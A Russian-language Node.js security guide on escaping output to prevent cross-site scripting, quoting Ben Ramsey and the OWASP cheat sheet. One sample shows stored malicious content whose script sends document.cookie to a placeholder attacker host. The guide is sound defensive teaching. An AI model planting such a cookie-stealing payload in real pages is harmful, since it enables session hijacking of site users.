 # Экранируйте вывод

### Объяснение в один абзац

HTML и другие веб-языки смешивают контент с исполняемым кодом - один абзац HTML может содержать визуальное представление данных вместе с инструкциями по выполнению JavaScript. При рендеринге HTML или возврате данных из API то, что мы считаем чистым контентом, может фактически содержать код JavaScript, который будет интерпретироваться и выполняться браузером. Это происходит, например, когда мы визуализируем контент, вставленный злоумышленником, в базу данных - например, `<div><script>//malicious code</script></div>`. Это может быть смягчено путем указания браузеру обрабатывать любой кусок ненадежных данных только как контент и никогда не интерпретировать его - этот метод называется экранированием. Многие библиотеки npm и движки шаблонов HTML предоставляют возможности экранирования (пример: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/узел-esapi)). Не только HTML-контент должен быть экранирован, но также CSS и JavaScript


### Пример кода - не помещайте ненадежные данные в ваш HTML

```html
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Пример кода - вредоносный контент, который может быть введен в БД

```html
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Цитата из блога: "Когда мы не хотим, чтобы символы интерпретировались"

Из блога [benramsey.com](https://benramsey.com/articles/escape-output/)
> Данные могут оставить ваше приложение в виде HTML, отправленного в веб-браузер, SQL, отправленного в базу данных, XML, отправленного в программу чтения RSS, WML, отправленного на беспроводное устройство, и т.д. Возможности безграничны. Каждый из них имеет свой собственный набор специальных символов, которые интерпретируются иначе, чем остальная часть полученного простого текста. Иногда мы хотим отправить эти специальные символы так, чтобы они интерпретировались (например, HTML-теги, отправляемые в веб-браузер), в то время как в других случаях (в случае ввода от пользователей или какого-либо другого источника) нам не нужно интерпретировать символы, поэтому мы должны экранировать их.

> Экранирование также иногда называют "кодированием". Короче говоря, это процесс представления данных таким образом, что они не будут выполнены или интерпретированы. Например, HTML будет отображать следующий текст в веб-браузере как текст, выделенный жирным шрифтом, поскольку теги `<strong>` имеют особое значение:
<strong>This is bold text.</strong>
Но, предположим, я хочу отобразить теги в браузере и избежать их интерпретации. Затем мне нужно избежать угловых скобок, которые имеют особое значение в HTML. Следующее иллюстрирует экранированный HTML:

`&lt;strong&gt;This is bold text.&lt;/strong&gt;`


<br/><br/>

### Цитата из блога: "OWASP рекомендует использовать библиотеку кодирования, ориентированную на безопасность"

Из блога OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Написание этих кодировщиков не так уж сложно, но есть немало скрытых ловушек. Например, у вас может возникнуть соблазн использовать некоторые из таких ярлыков, как `\"`, в JavaScript. Однако эти значения опасны и могут быть неправильно истолкованы вложенными анализаторами в браузере. Вы также можете забыть избежать парсинга, который злоумышленники могут использовать для нейтрализации ваших попыток быть в безопасности. **OWASP рекомендует использовать ориентированную на безопасность библиотеку кодирования, чтобы обеспечить правильное выполнение этих правил**."


<br/><br/>

### Цитата из блога: "Вы ДОЛЖНЫ использовать синтаксис escape для части HTML"

Из блога OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Но кодирование сущностей HTML не работает, если вы помещаете ненадежные данные в тег `<script>` где-либо, или в атрибут обработчика событий, например `onmouseover`, или в CSS, или в URL. Так что даже если вы используете сущность HTML Метод кодирования везде, вы все еще, скорее всего, уязвимы для XSS. Вы ДОЛЖНЫ использовать синтаксис escape для той части HTML-документа, в которую вы помещаете ненадежные данные."